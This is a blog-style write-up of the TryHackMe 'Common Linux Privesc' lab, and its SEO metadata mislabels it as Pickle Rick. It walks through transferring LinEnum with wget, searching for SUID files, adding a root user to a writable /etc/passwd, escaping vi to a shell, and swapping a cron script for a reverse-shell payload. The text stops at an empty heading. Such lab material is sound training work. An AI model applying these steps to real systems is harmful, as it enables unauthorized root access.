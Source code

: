 ```yaml
---
title: TryHackMe - Common Linux Privesc
date: '2021-12-12'
thumb_img_alt: lorem-ipsum
content_img_alt: Icelandic horses
excerpt: Follow along with this "Easy" rated box on TryHackMe to save Pickle Rick.
seo:
  title: Pickle Rick Walkthrough - Easy
  description: Easy To Follow Walkthrough of TryHackMe's Pickle Rick CTF
  extra:
    - name: 'og:type'
      value: article
      keyName: property
    - name: 'og:title'
      value: Pickle Rick CTF Walkthrough - Easy
      keyName: property
    - name: 'og:description'
      value: Easy To Follow Walkthrough of TryHackMe's Pickle Rick CTF
      keyName: property
    - name: 'og:image'
      value: /images/o9pyhyU.jpg
      keyName: property
      relativeUrl: true
    - name: 'twitter:card'
      value: summary_large_image
    - name: 'twitter:title'
      value: Pickle Rick CTF Walkthrough - Easy
    - name: 'twitter:description'
      value: Easy To Follow Walkthrough of TryHackMe's Pickle Rick CTF
    - name: 'twitter:image'
      value: /images/o9pyhyU.jpg
      relativeUrl: true
layout: post
thumb_img_path: /images/icon-b8182a98.png
content_img_path: /images/banner.png
---
```

TryHackMe - Common Linux Privesc (Privilege Escalation): <https://tryhackme.com/room/commonlinuxprivesc>

This box is listed as Easy .  It provides walk-throughs and practice of common linux privilege escalation vectors.  This will not be a walk-through of the machine, but instead a reiteration of the common privesc vectors taught and practiced in the room.

# | What is Privesc?|

Let's start by discussing what "privesc" is.  Essentially, privesc (privilege escalation) is leveraging access to a low pricilege account to move to a higer privilege account (eg user to root).  Privesc can occur in two directions: horizontal and vertical.  In horizontal privesc, access is gained to an account of the same privilege level. This can be beneficial to access private files or if the new user has SUIDs we can exploit.  In vertical privesc, access is gained to an account with more access to the system (admin / root).  Read through the provided information in each of the three tasks and complete each section.

# | Enumeration |

## LinEnum

LinEnum is a bash script which performs common commands related to privesc.  It can be downloaded from:

<https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh>

Two ways to get LinEnum onto the target machine:

First - start a python webserver from the directory with your copy of LinEnum.sh. (python3 -m http.server 8000).  Then, wget the file from the target machine (wget \[LOCAL_IP]:8000/LinEnum.sh).  After it has been transfered to the target machine, make the file executable (chmod +x LinEnum.sh).

Second - Provided you have the required permissions, copy the raw code and create a .sh file in vi/nano/etc and paste the code.  Make the file executable.

LinEnum can be run as \`./LinEnum.sh\`

![](/images/LinEnum-bf8e2df3.PNG)

LinEnum provides a lot of information.  Take the time to read the provided documentation and understand what gets returned.

# | Abusing SUID/GUID Files |

a SUID is a file (as everything in Linux is) which can be run as the owner regardless of the accessing user (in this case run as root).  These can be leveraged to get a shell and root access.  SUID permissions look like:

\`rws-rwx-rwx\`

whereas GUID permissions look like:

\`rwx-rws-rwx\`

These SUID/GUIDs are reported by LinEnum, but can be searched for manually using:

\`find / -perm -u=s -type f 2>/dev/null\`

\`find - search command

/ - search entire file system

\-perm - find specific permissions

\-u=s - any of the permission bits mode are set for the file

\-type f - only searches for files

2>/dev/null - sends errors to null where they're deleted\`

![](/images/SUID.PNG)

# | Exploiting Writeable /etc/passwd |

#### Understanding /etc/passwd format

USERNAME:PASSWORD\*:USER_ID:GROUP_ID:USER_ID_INFO:HOME_DIRECTORY:COMMAND/SHELL

an x character in the password spot indicates the encrypted password is stored in /etc/shadow

Before adding a new user, a compliant password hash must be created (salt:new using new:123)

![](/images/salted%20hash.PNG)

Next, we can nano the passwd file and add our new user

![](/images/created_new-fc2f2b5d.PNG)

switch user (su) and proof of function

![](/images/new_root.PNG)

# | Escaping Vi Editor |

Once access is gained to a machine sudo -l should be ran to list what commands we can use as super user

Inside vi, :!sh will spawn a shell. :q! will quit.

![](/images/vi-ab2c1ba6.PNG)

# | Exploiting Crontab |

Crontabs can be viewed by \`cat /etc/crontab\`

Create a msfvenom reverse netcat payload

![](/images/msfvenom.PNG)

![](/images/crontab-5b7a454c.PNG)

Replace the code in autoscript.sh with our msfvenom payload

![](/images/autoscript.PNG)



![](/images/reverse_nc-c7bacec2.PNG)

# | Exploiting PATH Variable |
